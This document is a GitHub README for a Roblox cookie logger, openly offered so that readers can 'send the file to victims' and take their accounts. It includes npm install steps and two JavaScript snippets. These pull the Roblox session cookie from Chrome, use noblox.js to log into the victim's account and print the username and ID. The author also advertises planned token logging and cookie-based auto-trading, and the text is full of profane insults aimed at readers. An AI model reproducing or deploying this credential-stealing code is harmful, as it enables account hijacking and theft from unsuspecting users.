

#updates
```Nim
1. [Added] Cookie Logging
2. [Added] Ip Logging
3. [coming soon] Might add the Auto Trade Via cookie method later on if i am not lazy
4. [coming soon] finish up the api
5. [coming soon] fuck ur mom obv
6. [coming soon] token logging for the weebs
```

# Cookie-Logger
I was bored and made this

sigh just a shitty cookie logger when i am done with exams and shit i'll make my own cookie logging api so u skids can send the file to victims and yoink their shit if u want this faster u can just go to https://skadaddle.cc/ might release it on there with a lot more features like token logging and etc




# STEPS FOR SKIDS

Install these first
```js
npm i github:ClockworkSquirrel/rbxcookie
```
```
npm i github:ClockworkSquirrel/rbxcookie --no-optional
```
```
npm i noblox.js -g
```

# How to check if it works

a simple fucking way to check this shitty ass logger is by

```js
const rbxcookie = require("rbxcookie")
const ChromeCookie = new rbxcookie.Chrome()

async function skidcity() {
    const cookie = await ChromeCookie.cookie()
    console.log(cookie)
}
skidcity()
```

Here is a more detailed explanation of validating the cookie u fucking dumbass roblox.js bs is automated so its easy af u stupid piece of shit

```js
const rbxcookie = require("rbxcookie")
const ChromeCookie = new rbxcookie.Chrome()
const cbx = require("noblox.js")


async function skidcity() {
    const cookie = await ChromeCookie.cookie()
    await cbx.setCookie(cookie)
    let user = (await cbx.getCurrentUser()).UserName
    let id = (await cbx.getCurrentUser()).UserID
    console.log(`Information on the person you logged\n User: ${user} - ID [${id}]`)
}
skidcity()
```

if u wanna say some fucking shit cuz u don't know how to run this shitty logger that won't even function right if u compile it just join our server from the website
# https://skadaddle.cc/
